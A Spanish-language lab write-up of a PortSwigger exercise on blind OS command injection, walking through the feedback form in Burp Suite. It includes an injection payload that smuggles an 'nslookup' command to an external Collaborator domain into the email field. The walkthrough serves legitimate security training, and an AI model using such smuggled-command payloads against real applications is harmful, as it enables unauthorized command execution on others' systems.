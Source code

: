 ```yaml
---
title: Blind command injection with out-of-band interaction
description: Laboratorio de Portswigger sobre Command Injection
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Command Injection
tags:
  - Portswigger Labs
  - Command Injection
  - Blind command injection with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, podemos desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos explotar la `vulnerabilidad` para realizar una `consulta DNS` a `Burp Collaborator`

---

## Guía de command injection

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de command injection` [https://justice-reaper.github.io/posts/Command-Injection-Guide/](https://justice-reaper.github.io/posts/Command-Injection-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Command-Injection-Lab-4/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/Command-Injection-Lab-4/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Command-Injection-Lab-4/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/Command-Injection-Lab-4/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=zRp2nJC1bIBQPQcICpkP7l9cHlAfYlE8&name=test&email=||nslookup+t712dnvp65v6mtbksuisdlxe95fw3rrg.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS`

![](/assets/img/Command-Injection-Lab-4/image_5.png)
